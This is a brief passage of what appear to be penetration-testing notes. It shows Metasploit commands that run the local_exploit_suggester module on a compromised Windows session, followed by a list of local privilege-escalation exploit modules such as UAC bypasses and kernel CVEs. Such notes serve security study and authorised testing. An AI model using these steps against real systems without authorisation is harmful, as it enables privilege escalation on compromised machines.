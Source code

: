 - Enumerate Windows Kernel vulnerabilities with Metasploit

```bash
background
search suggester
use post/multi/recon/local_exploit_suggester
sessions
set SESSION 7
run
```

![Metasploit local_exploit_suggester](.gitbook/assets/image-20230315163350829.png)

```bash
# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```
